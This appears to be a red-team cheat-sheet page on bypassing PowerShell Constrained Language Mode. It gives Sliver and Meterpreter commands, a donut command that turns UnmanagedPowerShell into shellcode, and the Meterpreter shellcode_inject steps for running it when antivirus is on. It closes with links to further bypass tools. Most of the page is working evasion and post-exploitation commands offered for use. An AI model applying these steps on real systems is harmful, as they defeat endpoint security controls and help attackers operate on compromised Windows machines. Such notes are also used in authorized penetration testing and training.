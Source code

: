 # CLM bypass
Both Sliver and Meterpreter have built in CLM bypass modules

### Sliver:

`sharpsh -- -c $ExecutionContext.SessionState.LanguageMode`
![SliverCLM](../images/SliverCLM.png?raw=true "Sliver CLM bypass")



### Meterpreter:
```powershell
meterpreter > load powershell
meterpreter > powershell_execute $ExecutionContext.SessionState.LanguageMode
[+] Command execution completed:
FullLanguage
```


### UnmanagedPowerShell
https://github.com/mmnoureldin/UnmanagedPowerShell

load powershell may not work if AV is still on. UnmanagedPowershell should work. AND it has built in PowerView, PowerUp, PowerUpSQL, and Powermad. 

Use donut as shown in the video from the repo to generate the shellcode.

`./donut -i /tmp/UnmanagedPowerShell.exe -o /home/kali/tools/Windows/UnmanagedPS.bin`

In meterpreter:
```
bg
use post/windows/manage/shellcode_inject

set CHANNELIZED true
set INTERACTIVE true
set session X
set shellcode /home/kali/tools/Windows/UnmanagedPS.bin

run
```
![Unmanaged Powershell](../images/UnmanagedPS.png?raw=true "Unmanaged Powershell")

###
Other projects to check out

https://github.com/beauknowstech/FullBypass

https://github.com/calebstewart/bypass-clm

https://github.com/n3rada/powerspace

https://github.com/padovah4ck/PSByPassCLM
